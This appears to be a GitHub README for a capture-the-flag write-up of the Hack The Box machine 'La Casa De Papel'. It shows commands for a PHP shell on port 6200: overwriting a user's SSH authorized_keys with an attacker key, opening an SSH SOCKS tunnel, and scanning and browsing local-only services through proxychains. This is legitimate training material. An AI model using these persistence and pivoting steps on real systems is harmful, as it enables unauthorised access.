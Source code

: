 
#La Casa De Papel

Alternate way to get into the box, we don't need to do any certificate to log in as in the intended way.

Generate a new rsa publci/private key with ssh-keygen, public key id_rsa.pub lets convert to base64, and call it PAYLOADBASE64


Log into the nc port 6200 after exploiting vsftd where we have a limited php enviroment, we have to upload the payload to /home/dali/.ssh/authorized_keys (we can overwrite it)
'''
$>nc 10.10.10.131 6200
unlink("/home/dali/.ssh/authorized_keys");
fwrite(fopen("/home/dali/.ssh/authorized_keys","w+"),base64_decode("PAYLOADENBASE64"));
'''

Now we can log it using ssh to test the id_rsa we generated before, but we are not doing any command stuff, we just use it to enable a dynamic tunnel with the machine.

'''
$>ssh -i id_rsa -D 1080 dali@10.10.10.131
'''

In other terminal, using proxychains we can scan the ports that are open only for local connections

'''
$>proxychains nmap -sT -n -Pn 127.0.0.1 -p-

PORT     STATE SERVICE
8000/tcp open  http-alt
'''

Port 8000 is open, and if we scan it we can see that is a web server, is the same webserver we can browse if we use the intented way of entering the machine, but locally we don't need any certificate.

'''
$>proxychains curl 127.0.0.1:8000
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:8000-<><>-OK
<li><a href="?path=SEASON-1">SEASON-1</a></li><li><a href="?path=SEASON-2">SEASON-2</a></li><li><strong>Select a season</strong></li>
'''

You have here also a python script to upload a public key and the private id_rsa file to enable the dynamic tunnel

